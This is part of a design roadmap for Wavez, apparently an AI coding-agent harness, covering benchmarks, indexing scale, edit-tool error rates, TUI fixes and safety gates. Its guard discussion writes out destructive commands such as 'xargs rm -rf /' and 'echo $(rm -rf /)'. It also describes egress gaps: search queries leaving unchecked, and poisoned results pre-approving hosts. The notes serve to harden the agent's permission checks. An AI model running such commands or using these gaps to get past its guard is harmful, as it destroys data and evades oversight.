| M3 Cheaper | The same task costs measurably fewer tokens than M1 on the benchmark harness, and the daily loop runs from Neovim | Benchmark harness on 20-30 replayed commits plus the extreme-ends performance set, Modifiers for Go, Python, TypeScript, intent-edit resolver (Go first, `like` and `add fn`), deterministic compaction, cross-stack contract nodes, own edge resolver where codegraph falls short, `wavez.nvim` with `$EDITOR` prompt handoff and a `wavez lsp` completion server, MCP on demand, context manifest and Ask-a-line |
| M4 Away | Approve a permission prompt and read a diff from a phone, and undo an agent change through the op log | VCS layer with git and jj, PWA, push, dispatch |
| M5 Reach | Wavez runs the work that leaves the terminal | Browser recordings. The external benchmark table is cut: see the Benchmark section |

### Standing objectives

The milestones say where this is going. These say how the work gets done, and
they outrank the order of Next wherever the two disagree.

**Quality and efficiency before speed, and speed before the comparison.**
Timing a loop that changes every week measures the week. The numbers that
decide anything are tokens and turns per finished task, and those only mean
something once the harness replays a fixed task set against a fixed tool
surface. So the benchmark harness comes first, the efficiency work runs
against it, and the machine probes and the Claude Code comparison wait until
the loop underneath them has stopped moving.

**A layer that only ever met one project has only ever been tested against
its shape.** Wavez ran on a Python repository for the first time on
2026-08-29 and four defects came out of one afternoon: the build gate ran
`go build ./...` unconditionally, the index walked `.venv` and gave 97% of
its symbols to dependencies, a search miss reported absence from the index as
absence from the tree, and a project in another language had no gate at all.
None of them is a missing feature. Each is a Go assumption that reached a
layer nobody thought of as language-specific, and stayed invisible because
every measurement here was taken on the one repository that satisfies it. So
a milestone is done when its condition holds on a project this harness did
not write, and `_ai_/bench/dogfood.md` records which project that was.

**The loop is both the product and the tool.** Work on Wavez runs through
Wavez wherever the task is inside what it can already do. Every defect worth
fixing in the last three sessions was invisible in review and obvious in a
transcript: a sandbox that made `go build` impossible, a search tool that
required every term at once, a read cache that skipped the read shape the
model actually uses. A dogfood session records counts in
`_ai_/bench/dogfood.md`, and a count that surprises is the next lane.

**Every addition pays for its tokens or its milliseconds.** The thesis is a
small cache-stable context and a deterministic layer cheaper than a model
turn, and both are easy to spend without noticing. A survey of fifteen
harnesses on 2026-08-30 turned up more good mechanisms than this project
should hold: an audit ledger, a falsifiability pass, a plugin surface, a
connector fleet, a proxy that rewrites prompts in flight. Each one faces the
test `wavez -preamble` already applies, which is what it costs a turn against
what it saves one. A mechanism adding a tool, a schema, or a prompt section
costs every turn forever and is measured before it ships. One running beside
the model over changed files costs nothing the model sees and is measured for
latency instead. Anything that cannot be stated in those terms goes to
Considered and deferred however good it is, and a good idea that does not fit
the constraint is the ordinary case rather than a near miss.

**Ask each tier only what it can do.** An 8B model holds one file well and
follows a short instruction with the answer already in front of it. It plans
badly, and it cannot find what it was not handed. So a run that fails on the
fast tier raises the question of which half was too hard, and so far the
answer has always been the retrieval rather than the reasoning. Escalating is
the last resort, because a tier that has to escalate has already spent the
turn.

**Move work out of the model, in this order:** a deterministic check, then a
smarter tool, then a better prompt, then a bigger model. Each step costs more
per run and reproduces less well than the one above it. A prompt fix that
survives one model change is luck, and a gate that answers the same question
costs nothing per run forever.

**Every optimization lands with its number.** `wavez -stats <thread>` reads
the thread log and reports what a run spent: turns, tool calls by name, result
bytes, reads that returned lines already in the window, gate outcomes, and
tokens. A change to a tool or a gate lands with the before and after from the
same task, or it lands as a guess.

**Gates block on broken and advise on weak**, per the Gates section. The
corollary for this list: an efficiency change that makes a gate quieter has to
show the gate still catches what it caught, because the cheapest way to speed
anything up here is to stop checking.

**One lane, one commit.** A lane that turns out wrong gets dropped on its own,
which only works if the measurement, the change, and the doc update travel
together and nothing else does.

### Dogfooding

The loop this project is optimized by: take the top item off Next, build it
with wavez's own tools where they reach, and measure it on a replay lane
when it touches the tool surface, a gate, or the preamble. A change to any
of those lands with a before and after from the same task, or it lands as a
guess.

**Running a lane.** `wavez -replay <task> -replay-label <name> -model fast`
runs one task of the fixed set in a throwaway jj workspace and appends a
record to `_ai_/bench/replay/records.jsonl`; `-replay-report <task>` prints
every record for that task and diffs the last two. The tasks live in
`_ai_/bench/timing/tasks.txt`, one line each, with the checks that decide
whether the run did the work. A change whose effect no existing task
exercises needs a new task rather than a hopeful reading of an old one:
`h3`, `h4`, and `h5` were each written for the Modifier they measure.

**Reading a lane.** Read output tokens per second before reading turns. A
replay measures the laptop as much as the tree, and a contended run reads as
a stupid model: one `e2` lane recorded 2 turns and a deadline at 68 output
tokens in 180 seconds with `hk check --all` and `go test ./...` running
beside it, and the same lane on an idle machine finished in 13 turns with
every check passing. Start a replay, then stay off the CPU until it records.
A run that turns out contended gets relabelled rather than deleted, because
the row is evidence about the method.

**What a lane can and cannot settle.** Repeated runs of one task vary 40-70%
in turns, so an A/B below roughly a factor of two is noise at the two or
three runs a lane gets. Anything smaller needs a metric that does not depend
on the model's path, such as the exact preamble size `wavez -preamble`
reports.

**The model's own account of a run is not evidence.** Read the tool log.
Twice now a closing summary has confidently described a defect that the tool
log shows never existed, both times after the harness handed the run a
failure it could not attribute. When a run behaves strangely, suspect the
harness before the model: the last two efficiency wins were both harness
bugs presenting as a confused model, and both were found by re-running the
task rather than by reasoning about it.

**Every lane ends in `_ai_/bench/dogfood.md`**, dated, with what was
measured and what it did not settle.

### The arcs

Next below is an ordered queue of measured, near-term work, and reading it as
the roadmap is a mistake this document invited: every item in it is something
a lane can settle in a session, so the arcs that take many sessions were
invisible. These are those arcs. They are not ordered against each other,
each one names what is actually missing rather than a direction, and an item
graduates into Next when it is small enough to measure.

**A. This runs on a 604-file repository and nothing larger.** Measured
2026-08-30 against 1,963 Go files and 244 MB of source (`modernc.org/sqlite`
and `modernc.org/libc`, which carry 14 files over 2 MB each) beside this
project's own 604 files and 5 MB:

| | wavez | the 244 MB tree |
|---|---|---|
| first index | 2.1s | 1m11s |
| store on disk | 17.6 MB | 428 MB |
| allocations while indexing | 69 MB | 1.8 GB |
| `search` latency | 70-110ms | 583ms-1.7s |
| re-index, nothing changed | 76ms | 167ms |

The shape of that is the finding. Incremental re-indexing scales and nothing
else does, because the store is byte-bound rather than file-bound: 3.2 times
the files cost 34 times the index time and 24 times the disk, and the trigram
FTS over a quarter-gigabyte of source is where both go. A run spends 58% of
its turns on retrieval, so at a second per search this is a different product
rather than a slower one. The bound on one file is in. `MaxFileBytes` is 256 kB and `vendor`
joins the skip list, on the evidence that every source file above 100 kB in
the twelve checkouts on this laptop is generated or a data table, while the
largest hand-written one is 89 kB. On the same probe and machine that cuts
the first index from 1m09s to 14.5s, `search` from 412ms to 31ms, the store
from 428 MB to 140 MB, and allocations from 1.8 GB to 338 MB, for 52 files
and 28,173 machine-written symbols. It passes over nothing in this project.
A miss it causes says so, since a silent one is the degradation this arc is
against.

The first pass no longer blocks the first query either. `Start` set a flag
and `Refresh` took the walk lock regardless, so any query arriving during a
cold index waited the whole walk out, which is 14.5 seconds on that tree. A
query during the first pass now answers from what the store already holds
and carries `IndexStats.Building`, which `search`, `context`, and a `@`
mention each say out loud, because an incomplete answer given silently reads
as an absence from the tree.

Whole-repo operations turned out not to be the problem this arc assumed.
Measured against `modernc.org/libc` as a module, `go list -json ./...` is
0.2-0.5s and a rebuild after an edit is 0.64s, while the same two commands
on this 604-file project are 0.3s and 3.1s. Cost tracks dependency depth
and cgo rather than module size, and this project's own build gate was the
slow one: 2.6 of those 3.1 seconds were relinking a binary `go build ./...`
then discarded. The gate writes them to a per-project directory under the
user cache instead, which is 0.75s including the `go list` that says whether
there is anything to link at all.

The coverage sweep is bounded now. Its cost floor is per test rather than
per byte: a trivial test in a two-file module, instrumented binary already
built, still costs 0.49s of `go test` process and staleness checking, and
this project's 689 tests average 3.8 worker-seconds each, so a large enough
module turns the first build into an hour nobody asked for. One build spends
at most `DefaultCoverageBudget` (10 minutes), then stops feeding tests and
leaves the map incomplete, which holds selection at importer level exactly
as an unbuilt map already does. Nothing is lost, because the manifest makes
the next build resume from where this one stopped.

The last one is in too, and it degrades rather than refuses. One `Index`
call parses at most `MaxIndexBytesPerPass` (32 MB) of new or changed source,
counting only what it reads into the store, so an unchanged file costs a hash
and never the budget and every pass therefore advances. `Start` runs passes
until nothing is deferred and holds `Building` across all of them, so the
query path never pays for one. On the 244 MB tree that is two passes, 9.7s
and 5.0s, against 14.5s unbounded, which is the same total with the walk lock
released in between. The reason to bound it at all is that lock: a first pass
long enough to outlive the first edit means the 236ms incremental path never
gets to run.

That question has an answer now, measured against a 17,597-file, 114 MB
public checkout rather than a synthetic one. Three things had to change: a
stat decides whether a file is worth reading (the `files` table recorded
`mtime` and `size` and never read them back, so every query re-hashed the
whole tree), whole file text leaves the trigram index above
`MaxContentIndexBytes` because it was 390 MB of a 420 MB store to beat `rg`
by less than a second, and a file no human wrote stays out. That is 1m20.6s
to 34.9s cold, 1.212s to 239ms per query, 435ms to 26ms per search, and
419.8 MB to 87.9 MB on disk, with symbol queries still resolving to their own
declarations. [docs/scale.md](docs/scale.md) carries the design, the corpus,
and the one thing left on the walk, which is a filesystem watcher worth
239ms. None of the efficiency numbers in Next transfer across this
boundary, because all of them were measured on the small side of it.

**B. Documentation drifted from the tree, and so did the template.** The
README describes M2 in progress and names none of `pty`, `look`, `annotate`,
`-timeline`, archiving, or services. `docs/demo.gif` and the six stills under
`docs/img/` are from 2026-08-26, which is before the Home viewport, the
schedule window, the help screen's columns, and every screen the 80x24 sweep
fixed, so the pictures a reader sees are of defects that are closed. The
milestone table calls M5 "Reach" in this file and "Proof" in the README. The
template render is one patch behind (`_commit: v0.12.0`, latest `v0.12.1`).
A `mise run demo` re-render and a README pass are each an afternoon, and the
arc is keeping them from drifting again: the demo tape is the only executable
piece of documentation here, so it is the one worth wiring to a check.

**C. What is shared with the sibling tools is copied instead.**
[aragonite](https://github.com/KyleKing/aragonite) holds `vcs` (git and jj
behind one interface), `tui/theme`, `tui/table`, `tui/markdown`,
`tui/region`, `cache`, and `transport`, extracted from gh-repo-dashboard with
real consumers. This project has its own `internal/vcs` at 1,035 lines, its
own theme, and its own table and markdown rendering inside 13,011 lines of
`internal/tui`. Aragonite's README already lists this project's
`internal/codeintel` as a planned extraction, so the traffic runs both ways.
M4's "VCS layer with git and jj" is the forcing move, because that is
aragonite's `vcs` package described from this side. See the Decisions entry.

**D. The screens have been swept for fitting, not for reading.** Every screen
renders inside 80x24 and `TestEveryScreen_FitsItsTerminal` holds it there,
which is a floor rather than a design. The re-rendered `docs/img/home.png`
says what the floor leaves: at 435 threads, twenty of the twenty-eight rows
on screen read as `rename-the-exported-function` or `a-project-s-config-is`
because the name column truncates them all to the same prefix, every spend
column reads `$0.00`, and a third of the width sits empty to the right of a
column that is cutting text. Nothing has judged the visual hierarchy, what a
first-time reader looks at first, whether the state vocabulary is consistent
across Home, Schedule, and Routines, or how any of it degrades under
`NO_COLOR` and a monochrome terminal. The instrument exists
and is not this project's: the `tui-critique` skill drives VHS to capture
real frames and scores them, and it refuses a critique written from source.
Views and filters belong to this arc too, since `state:` narrowing on Home is
the only structured filter anywhere and Schedule, Inbox, and Routines each
answer a question a filter would sharpen.

**E. Configuration is one file, one schema, and no ceremony, which is right
until it is not.** `.wavez.pkl` is 347 lines with 27 top-level keys, and a
key never reaches the process table: `hostedKeyCommand` and a tier's
`keyCommand` name a command whose stdout is the token, so the file holds no
secret and neither does the environment. What is missing is everything
around that. There is no way to tell whether a key command works without
starting a turn, no report of what a tier resolved to, nothing that says a
model named in the config is not installed, and model management stops at
list, check, install, and remove with no way to say which local model a
project prefers. A config error surfaces as a failed run rather than as a
line naming the key.

**F. Prompt editing stops at the composer.** It has vim modes, a fullscreen
toggle, and per-repo and per-user snippets. It has no `$EDITOR` handoff (M3
lists it), no way to edit and resend a prompt already sent, and no way to see
or edit what the model was actually given, which is the sidecar transcript
rather than the event log. The last of those is the one with no workaround:
`wavez -recall` reads that transcript for one tool call, and a person cannot.

**G. Threads, routing, and services are the ideas nobody else has, and each
stops one step short.** Threads carry their own history, scheduling, and
lifecycle, and archiving just gave them an end. Routing picks a tier per turn
and the fast tier's remit is still unmeasured (item 5 below). Services are
declared, reference-counted, and held by a step, and nothing yet holds one
across a thread, exposes what is up, or brings one down when the last thread
that wanted it finishes. The arc is making each of these reach the thing next
to it: a routine that starts a service for a thread rather than for a step, a
route decision that reads the thread's own history, a thread that inherits a
parent's services.

**H. MCP is decided and unbuilt.** The Decisions entry settles the policy
with this project's own numbers (a tool costs 121 to 459 preamble tokens
every turn forever, a CLI costs nothing because `shell` is already
advertised), so MCP is for what has no command-line form: a service reached
only over a protocol, or a server whose state persists across calls. What
exists is the decision. The client, the per-thread connection, the allowlist
in `.wavez.pkl`, and the accounting that keeps an on-demand tool off the
preamble until it is connected are all M3 and none of them are written.

### Next

**Take next**, when nothing else is asked for, in this order. These are the
measured, near-term items: each one has a number behind it and a lane that
can settle it. The arcs above are what this list is not. Sources are the
audit (`_ai_/bench/audit-2026-08-18.md`), the frontier comparison
(`_ai_/research/2026-08-efficiency-frontier.md`), and the dated rows in
`_ai_/bench/dogfood.md`, which is where every closed item's evidence lives.

1. **Retrieval is 58% of every turn a run spends.** Over 2,085 turns since
   2026-08-23 the split is 14% productive, 58% retrieval, 25% harness, and
   3% prose, against 15/44/34/6 over the 1,195 turns this was written from.
   Harness turns fell nine points and retrieval took every one of them at
   unchanged mean turns per task, so the tool surface errors less and the
   runs read more rather than a run getting cheaper.

   One cause is fixed. The trigram index scored by bm25 alone, which reads
   document length, so a short query answered with the shortest documents
   holding its letters: `Read` returned twelve names built from `Thread`
   above either symbol actually called `Read`, and the second of those sat
   at row 90 of 1,239. Fuzzy search now ranks a wider window by the name it
   matched, exact names first and then the names the query is a whole word
   of, shortest first, leaving everything a name match does not speak for in
   bm25 order.

   Twelve `h3` lanes measured it and the result is not the one that was
   wanted. Mean turns fell from 43.2 to 29.0, `str_replace` calls per lane
   from 10.2 to 5.0, spend from $0.099 to $0.048, and eight of the twelve
   never left the balanced tier where every lane before had escalated. Runs
   that passed all six checks fell from 5 of 6 to 4 of 12. The cause is in
   the trails rather than inferred: `rename` used to be unreachable on this
   task and is now reached by half the lanes, where seven of nine calls
   refuse, so the runs that finish are the ones that grind or escalate
   instead. That is item 5, and it is now the thing holding this task rather
   than retrieval.

   Reading the 64 thread logs behind the 08-26 corpus says what a retrieval
   turn holds. It holds one tool call: 902 retrieval turns carry 937 calls,
   and four of them called two tools. So the number counts round trips, and
   anything that cuts it has to remove a question rather than shorten an
   answer. Three candidates measured, in `_ai_/bench/dogfood.md`:

   - Batching reads is worth 36 turns of 1,458. All 417 reads named one path
     though the schema has advertised a comma-separated list since it
     shipped, and 39 of the 94 back-to-back read sequences repeat a path
     with a different range, which the batch could not express. A path
     carries its own range now (`home.go:120-180`), and the refusal for a
     call-level range across several paths names that form. It cost 9
     tokens net, because `start_line` and `end_line` were restating the
     description; the ceiling that should have priced it had already been
     passed, at 2,661 against 2,450, since `preamble:budget` runs in the CI
     `project` job and not in `hk check --all`. It is 2,670 now
   - Snapping a range to its enclosing declaration is worth nothing. It
     would have answered 2 of the 41 adjacent same-file ranged pairs, since
     a follow-up read jumps elsewhere in the file rather than missing a
     boundary
   - 171 shell calls re-ran a check the gates run, 2.7 per run, and 123 came
     after a change with no gate feedback yet delivered. 37 of the 64 runs
     never got a delivery at all. `alreadyChecked` answers those now for a
     package the run changed, which saves the subprocess and not the turn

   The one that saves the turn was a sentence already there and wrong.
   `BaseSystem` said work "is checked by a build and by tests when you
   finish", which tells a run the harness only looks at the end, so it looks
   itself. It now says the build and the changed packages' tests run after
   each edit and reach the run at the start of a turn, for 16 preamble
   tokens. Eight lanes alternating a control over `h13` and `h2` ran 8
   non-targeted go sweeps on the control side and 0 on the treatment side,
   every lane passing every check. Turns fell 12.0 to 8.2 and that is not a
   claim: the control lanes ran 5, 17, 17, and 9.

2. **Nothing here has been measured on a project it did not write.** Pointed
   at two sibling Python repositories, four defects surfaced that this tree
   could not show, three of them fixed and recorded in
   `_ai_/bench/dogfood.md`:

   - `BuildGate` ran `go build ./...` unconditionally, so every run on a
     non-Go project answered a Go toolchain error instead of the task. It
     abstains without a `go.mod` now
   - the index walked `.venv`, which put 97% of a Python project's symbols in
     its dependencies. Go keeps those outside the tree, so `skipDirs` had
     never needed more than `.git` and `node_modules`
   - a search miss said "no matches across 149 indexed files" for a string in
     a `.css` file the index never held, and a run read that as the string
     not existing. It names what the index covers now
   - a project in another language had no gate at all, since every built-in
     one speaks Go. `checks` in `.wavez.pkl` declares a name, the globs whose
     change runs it, and a command, and the ruff loop on calcipy is the same
     change-triggered loop the Go gates give

   A run which edits nothing was verified by nobody, since every gate and
   every other finish bound reads a change set. One such run reached a
   confident wrong conclusion about a stylesheet and drafted a correction to
   the project's notes from it. The bound that fits is grounding rather than
   correctness: for a run that wrote nothing, every existing file its closing
   answer names must be one the run actually opened. Reading the file does
   not make the conclusion right, and not reading it proves the conclusion
   came from somewhere other than the tree. A run that changed something
   abstains, because a search result is a fair source for naming a neighbor
   in passing.

3. **`no_match` is the only class in the edit tools that is still live.**
   Since 2026-08-28 `str_replace` runs 94 calls at a 7% error rate, `no_match`
   5 and `ambiguous` 2, and `rename` 12 calls with no failure at all. Every
   other class the whole-window counts below name is closed. The 16
   `bad_input` results were one shape, `replace_all` sent as `"True"`, which
   `coerceQuotedBool` has read as a boolean since 2026-08-25: every one of
   them was recorded on 08-26 by a binary built before that, so the count is
   a stale population rather than a live rate. `repeat` and `malformed` have
   not appeared since. Read the window before reading the totals.

   The window that follows is what the item was written from, when
   `no_match` was the largest class and `ambiguous` the one that grew. From
   `wavez -stats-corpus`, which is what these counts have to come from:
   over the whole corpus `str_replace` runs 559 calls at a 30% error rate,
   `no_match` 70, `bad_input` 41, `ambiguous` 39, `malformed` 11, and
   `repeat` 4. Split at 2026-08-26 with
   `-stats-since`, the 264 calls before it erred 28% with `no_match` 39 and
   `ambiguous` 11, and the 295 after erred 31% with `no_match` 31 and
   `ambiguous` 28. So `no_match` fell from 14.8% of calls to 10.5% and
   `ambiguous` rose from 4.2% to 9.5%.

   The largest single shape inside them is a re-send: 15 of the 91 recent
   `str_replace` failures repeat an input that already failed in the same run,
   and 19 do across all tools, of which the loop's adjacent-call detection
   reached 4. `str_replace` now records each refused anchor against the file's
   bytes and answers an identical anchor for unchanged bytes with `repeat`,
   which is a check rather than a guess because identical bytes and an
   identical anchor cannot match now having missed before.
   `wavez -recall p-dkyhkk6eessg -recall-turn 21` is one of them.

   One `no_match` class is already answered and is worth not re-deriving: an
   anchor whose only fault is gofmt's column alignment, `name:  "x"` sent as
   `name: "x"`, applies today through the line-wise tier in `edit.Replace`
   that collapses interior spacing, and the blank-tolerant tier below it
   covers an anchor copied without the file's blank lines. The rest are
   anchors that genuinely miss, and the instrument for them is `-recall` over
   the lanes that hold them rather than another sweep.

   Of the recent `ambiguous` results, eight are one identifier substituted,
   `Read` to `ReadLog`, which is what `orRename` was withholding advice from
   while `rename` could not finish a hand-edited declaration.
   `wavez -recall p-dkywvbjtyx0o -recall-turn 16` shows one answered now,
   ending `path: "internal/bench/stats.go"`. The rest change several
   identifiers at once, which is a text edit rather than a rename, and
   `replace_all` is what the refusal already offers them.

4. **What a run reads after it has found the right file.** A whole-file read
   past 300 lines comes back as the package clause, the imports, and every
   declaration with the range that reads its body. Over this project's thread
   logs that answers 28% of whole-file reads and cuts 58% of their bytes, for
   21 tokens of preamble. Four `h13` lanes alternating control and outline
   held turns at 10.5 against 10.0 and cut input tokens 24%, read bytes 19%,
   and spend 23%, with 5 of 5 checks every lane, which is the result that
   mattered: LogDx-CI's finding is that a weak first payload costs turns
   rather than quality.

   It looked like it cost turns where editing rather than finding is the
   work: `h3` ran 7 and 13 turns against 5, 5, and 9 before it. Both of those
   lanes spent turns on lint findings naming a deleted sibling workspace,
   which the linter's results cache was answering them with, so they measured
   the harness. Four fresh lanes with that fixed, alternating a control built
   from the same tree with the trigger off, run 8 and 7 turns against 9 and
   12, on 28.6k input tokens against 42.2k and $0.014 against $0.019, 6 of 6
   checks every lane. The regression does not reproduce.

   Reading the run's own history instead of the file's length was the other
   candidate trigger, and the corpus closes it: of the 85 whole-file reads
   that are long enough and in a language the outline speaks, 4 are of a file
   the run had already edited. There is nothing there to trigger on.

5. **Every path through `rename` on a real rename task refuses.** Six of
   twelve `h3` lanes called it and seven of nine calls came back a refusal,
   in two shapes. A bare call is ambiguous, because three packages here
   declare `Read`, and two lanes answered that by re-sending the identical
   call until the loop detector stopped them, one of them after the refusal
   had been rewritten to carry the exact `path` argument that resolves it.
   That is now refused the way `str_replace` refuses one: the refusal itself
   is the state, so a call refused with the same words is answered with what
   to do ahead of them, and a call the run narrowed gets different words and
   is left alone. Both tools share the guard. The other shape is order:
   a lane that hand-edits the declaration first puts the symbol beyond
   `rename`, which starts from the declaration, and `str_replace`'s
   ambiguous refusal was pointing at `rename` at exactly that moment. The
   `rename` starts from a declaration that already carries the new name now:
   it writes the old name back at the declaration alone, which makes the
   references resolve again, and renames from there through type information.
   `str_replace`'s advice followed, since withholding it was this limitation
   rather than a judgement, and it carries the file holding the declaration
   because a bare call cannot say which of three `Read`s is meant. Both are
   measured on the recorded calls with `-recall` rather than on a replay: the
   hosted tier finishes `h3` in 5 turns with one clean `rename`, so a lane no
   longer reaches the shape. What is unsolved is that `str_replace` cannot say
   anything until a run is already editing, and the choice there is routing
   ahead of the first edit against preamble spent on every task to serve one
   shape of task.

6. **Home is the screen a person actually reads, and it was the least
   measured.** A pass over it with a real 393-thread list found the list
   rendering every row with no viewport, so `G` moved a cursor below the
   fold and the key hints sat off-screen; a name column fixed at 20
   characters cutting every row to `rename-the-exported…` while ninety
   columns stayed empty; a filter that narrowed 853 rows to 6 without
   echoing the query or the count; and the state carried twice, once as a
   glyph and once as a word. Those are fixed, and so is the state filter:
   a `state:` term inside the same query narrows by lifecycle position and
   matches no text, so `/state:failed` is the failures alone where
   `/failed` also caught a goal saying `failedEdit`, `/state:failed rename`
   narrows by both, and a word after the colon that names no state matches
   nothing, which puts a typo on screen as an empty list. A selection
   followed: space marks the cursor row, `*` marks every row the filter
   shows and a second `*` clears, the count sits in the header beside the
   match count, and `y`/`n`/`a` answer every selected row that has a prompt
   pending. Enter applies the filter, which the footer had advertised and
   the input swallowed, and without which `*` could never reach what a
   filter narrowed to. Archiving followed: `A` moves the selection, or the
   cursor row when nothing is selected, and `z` reads the archive as its
   own list rather than as a column on the working one. The position is a
   `KindArchive` event on the thread's own log, so it survives a restart,
   and a thread with a turn in flight is refused, since hiding a run that
   is still working is how a run goes missing.

   The thread screen has had the same pass. Pressing `g` and then esc used
   to leave the goal overlay on screen forever, because esc popped the
   stack under an overlay `closeOverlay` never checked and `g` binds to
   nothing off the thread screen. The screen also overflowed the terminal
   and lost its bottom rule, and with it all nineteen key hints, once a
   thread changed three files: the transcript's budget was a constant while
   the change summary grew a row per path, so the budget is now derived
   from the rows that actually render and the summary is bounded like the
   diff pane it stands in for. And a folded row spent its width on a
   space-joined dump of the result body, where every tool already puts its
   headline on the first line, so a fold now cuts there and the body is
   what expanding is for. The help screen then turned out to carry the same
   overflow, in the one place a lost reader goes: nineteen one-word labels
   down a single column ran the bottom rule off an 80x24 terminal. A `hint`
   now carries the sentence help shows beside the word the footer shows, and
   the list folds into as many columns as the width fits, which is what
   brings it back inside the height. `internal/tui/discoverability_test.go`
   holds the property, after `../gh-repo-dashboard`.

   Schedule was the last screen with the same defects, and the sweep that
   found it was a render of each screen at 80x24 rather than a reading of
   the code: Inbox, Diagnostics and Routines all fit, and Schedule drew all
   393 lanes with no viewport, cut every name to 18 characters so six
   threads read `create-the-file-i…` alike, and carried the state twice as
   fifteen identical glyphs beside the word. It windows now, the name takes
   what the fixed columns leave, and a run of one state blanks so the eye
   goes to the lane whose history actually changed.
   `TestEveryScreen_FitsItsTerminal` holds the property for all eight
   screens, in height and in row width.

**Also open**, and not competing with the four above:

- The Semgrep opt-in routine. The other three triggers fire now: `schedule`
  runs a routine every `intervalSeconds` counted from the end of its last
  run, refused below 30 seconds at compile because a typo in seconds is a
  laptop with no CPU left; `thread-start` fires once per thread rather than
  once per prompt; and `thread-finish` runs on the turn's own goroutine, so
  it is a step of the run rather than something racing the next prompt. The
  panel marks an abstention now: a step that reported no failure
  while examining nothing is `StatusAbstained`, which neither passes the run
  nor blocks what depends on it, and a run where every step abstained wears
  its own mark rather than a tick
- Fleet-scale local serving past the slot bound that ships: `--cache-ram`
  is set now, and sizing it against the admission headroom rather than at a
  fixed 512 MiB is what is left (the `kv-slots` numbers). The
  trimmed-output recall handle ships, as a spill file in the session
  directory the omission line names. So does allow-always persistence, and
  narrowing the key had to come first: the key was the command's first word,
  which expires harmlessly with a thread and would have granted every later
  `curl` in the project forever once it did not. It is the whole command line
  now, exact, one prompt per distinct command
- The timed comparison in `_ai_/bench/timing/`: hosted and `claude -p` rows
  for the four tasks, three samples each, on a machine running nothing else
- `wavez -timeline <run>` is the sequence the corpus commands cannot show:
  one line per turn, a bar scaled to the run's longest turn, the tools each
  turn called with the cause on every failure, and the gate deliveries,
  gate escalations, and tier changes beside them. What is left is a version
  a person can page through rather than scroll
- What the fast tier's remit actually is. Holding the tools, the prompt, and
  the task fixed on `e2` and varying only the tier, the hosted model passed
  3 of 3 checks on all three runs while the fast tier reached 3 of 3 about
  once in six, and every remaining fast-tier failure was one compile error:
  a test in `package sysinfo_test` naming `Memory` rather than
  `sysinfo.Memory`. That is the tier rather than the tool surface, and the
  candidate routing signals are plan mode, a Cycle phase declaring its
  shape, and the run's own tool history
- A `lint` finding on a neighbor is an advisory rather than dropped. The
  gate lints whole packages and kept only what named a changed file, so work
  displaced out of a run's own files was linted and then discarded, and CI
  was the first place it surfaced. An advisory reaches the gate log and never
  the model, which is what keeps a run from being blamed for what it
  inherited. What that leaves open is telling the two apart, which needs the
  package's findings as they stood when the run started: the gate is handed a
  batch's change set and no run identity, so a baseline has nowhere to live
  yet

- Risk as a declared property of a tool rather than a call each tool
  remembers to make. `shell`, `pty`, and `web_fetch` each ask the gate
  themselves and the edit tools ask nothing, so whether a call is gated is a
  fact about who remembered rather than about what the tool does.
  openworker declares one of read, egress, write_local, exec, or external
  per tool and reads that in one place (`coworker/risk.py`), with the rule
  that a user override may tighten a built-in and never loosen one, because
  dropping a write to a read would switch off path scoping and the mode gate
  in the same step. Here that puts `str_replace`, `write`, `delete`, and
  `rename` on the same footing as `shell` and gives `-strict-scope`
  somewhere to live that is not the edit tools' own code. The measurement is
  in: over 327 runs that wrote anything, 1,850 write calls at a mean of 5.7
  per run (p90 11, max 41), against 2.0 distinct files per run (median 2, p90
  4, max 6). So a write class keyed per call is unaffordable and one keyed per
  file is two prompts a run, which is the shape the shell's approval key
  already has. Turning it on is a decision about how a run should feel and
  not a measurement any more
- Neither route onto the allowlist is open, and the `_IMPLICIT_TARGETS` half
  is closed the other way round. `classifyXargs` already classifies what
  xargs would invoke, and every other name in openworker's `_ARG_EXECUTORS`
  (env, timeout, nohup, npx, uvx) prompts on its own name because none is on
  `defaultAllowed`, with `sudo` refused: measured, `xargs rm -rf /` refuses,
  `xargs curl` and `xargs -I{} sh -c` both prompt. `mise run <task>` still
  classifies as the mise task and the body is still never read, and what
  makes that safe is that no tool can write the body any more. Reading it
  would prompt on `mise run ci`, which every run calls, to stop an escalation
  the protected list already stops
- The search query is the outbound channel the Safety section says the
  network rule does not cover. `web_fetch` prompts on a host no search in
  the thread returned and `web_search` prompts never, so a model-chosen
  string reaches a third-party instance on every call. openworker classifies
  `web_search` as egress for that reason: the destination is fixed and the
  query is free text the model wrote. The other half is that `WebSearch.Run`
  adds every result URL to `seen`, so a poisoned result set pre-approves its
  own hosts for the fetch that follows. Neither is worth fencing blind, and
  what to measure is how many distinct hosts a real run fetches and how
  often a search precedes a fetch, since a prompt per search would be the
  whole tool. That cannot be measured here: the pair is behind a per-project
  toggle that defaults off, and 870 thread logs hold no `web_search` or
  `web_fetch` call at all. Narrowing `seen` from a host to the exact URL a
  search returned is the change that fits, and its prompt cost has no
  corpus to be read from

- One provider's schema quirks are a hand-coded special case, and there is a
  shape for the general problem.
  [jcode](https://github.com/1jehuang/jcode)'s `jcode-schema-dialect` names the
  bug precisely: eight of its issues were the same failure with a different
  keyword, each fixed by appending that keyword to a per-provider deny list,
  and a deny list only ever holds what has already broken for somebody. Its
  replacement is three layers. Each provider declares the subset of JSON Schema
  it *accepts*, so an unknown construct is dropped rather than forwarded and a
  keyword nobody has seen yet is inert instead of fatal. A rejection that
  happens anyway is parsed out of the provider's error text into the offending
  keyword and the turn is retried without it. The learned quirk is persisted,
  so it costs one wasted round trip ever. `openaic.schemaFor` is the deny-list
  stage of exactly this: `Dialect.composesSchemas()` is a single boolean, and a
  dialect that answers false has every branch but the first silently dropped,
  which is why a tool reachable only through a later `buildOneOf` branch is a
  tool the hosted tiers cannot reach at all. Generalizing the boolean to a
  declared keyword set is small. The part worth copying whole is the
  conformance check, which asserts over the real tool registry that a
  normalized schema neither keeps a construct the dialect rejects nor drops one
  that carried meaning, because over-stripping is the failure an allow-list
  newly makes possible and nothing here would catch it

- The guard splits a command string by hand and there is a parser for that.
  [safecmd](https://github.com/AnswerDotAI/safecmd) validates by parsing bash
  into an AST before it checks anything, on the argument that
  `echo $(rm -rf /)` is invisible to prefix matching. The same parser is a Go
  library rather than a binary here (`mvdan.cc/sh/v3/syntax`), so nothing
  shells out and a verdict stays a pure function of the command text. It
  closes two Considered-and-deferred entries at once, a heredoc body read as
  commands and nested substitution, and replaces the redirection scan in
  `writes.go` with the parse tree's own targets. The `Env` argument and the
  expansion rules stay as they are, since a parser answers what a command is
  and not what its variables hold. jcode's `jcode-command-risk` attaches the
  caveat that matters: its catastrophic tier is a small absolute path-based
  deny that deliberately does not depend on parsing the command correctly, on
